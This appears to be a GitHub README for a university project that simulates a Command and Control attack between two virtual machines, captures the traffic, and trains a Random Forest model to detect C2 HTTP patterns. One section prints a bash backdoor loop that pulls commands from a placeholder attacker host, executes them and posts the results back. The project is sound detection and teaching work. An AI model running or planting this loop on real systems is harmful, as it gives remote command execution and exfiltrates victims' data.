 # Cyberattack Detection via Network Traffic Analysis & Machine Learning
This project simulates a Command and Control (C2) cyberattack in a virtual environment, captures network traffic, extracts relevant features, and trains a Random Forest machine learning model to detect malicious behavior.

It was developed as a learning tool for understanding network-based threat detection using packet captures and ML.

# Authors
 - Evelina Kabišaitytė
- Ugnė Vaičiūnaitė
- Martynas Lipskis
- Kamilė Norkutė

Supervised at Vilnius University, MIF.

 # Project Structure

- `pcap_samples/` – Captured `.pcap` files (`Victim.pcap`, `Attacker.pcap`)  
- `feature_extraction/` – Feature engineering scripts  
- `model/` – Training, saved model, and evaluation  
- `run.py` – Entry point: applies model to new `.pcap` files  
- `README.md` – Project overview (this file)  
- `requirements.txt` – Python dependencies  



# Project Setup
1. Virtual Machine Setup (via OpenNebula)
Launch two VMs:

- Attacker VM

- Victim VM

2. Install Tools
On both machines:

```bash
sudo apt update && sudo apt install tcpdump curl
```

3. Run Tcpdump
Start capturing traffic on both machines:

```bash
sudo tcpdump -i eth0 -w Victim.pcap &
sudo tcpdump -i eth0 -w Attacker.pcap &
```
4. Simulate C2 Attack
   
On the Attacker VM, start a Python HTTP server (on port 80) to serve and receive command data.

## Victim-side Backdoor Agent Bash Script

This script runs in an infinite loop on the victim machine. It repeatedly:

- Sends a GET request to the attacker’s `/command` endpoint to retrieve commands.
- Executes the received command locally.
- Sends the command output back to the attacker via a POST request to `/result`.
- Waits for 3 seconds before repeating.

```bash
#!/bin/bash
while true; do
  cmd=$(curl -s http://<attacker_ip>/command)
  result=$(bash -c "$cmd" 2>&1)
  curl -s -X POST -d "$result" http://<attacker_ip>/result
  sleep 3
done
```

# Data Collection
After running the attack:

Stop tcpdump using Ctrl+C.

Transfer .pcap files to your local machine using scp:
```bash
scp -P <PORT> <user>@<vm_ip>:~/Victim.pcap ./pcap_samples/
```
# Feature Engineering
Features extracted from .pcap files include:

- URI paths (e.g., /command, /result)

 - HTTP methods (GET, POST)

- URI string length

- Time gaps between requests per IP

Labeled data:

- Malicious (1) — C2 patterns

- Benign (0) — everything else

# Model Training
A Random Forest classifier is trained on the extracted features.

Preprocessing includes standardization (StandardScaler) for time-based features.

# To run the ML model:
```bash
rmdir /s /q .venv
python -m venv .venv
.venv\Scripts\activate
pip install -r requirements.txt
python run.py --pcaps Attacker.pcap Victim.pcap
```

#  Results
Flags C2-like behavior using HTTP request patterns

Produces detailed predictions including:

- Source/Destination IPs

- HTTP method

- URI

- Timing features

- Generalizes well to unseen traffic

# Example output:
![image (6)](https://github.com/user-attachments/assets/62c23613-f7fb-4d4e-9a8c-15f961d50110)

# Requirements

- scikit-learn
- pandas
- numpy
- pyshark
- joblib
  
Install with:
```bash
pip install -r requirements.txt
```

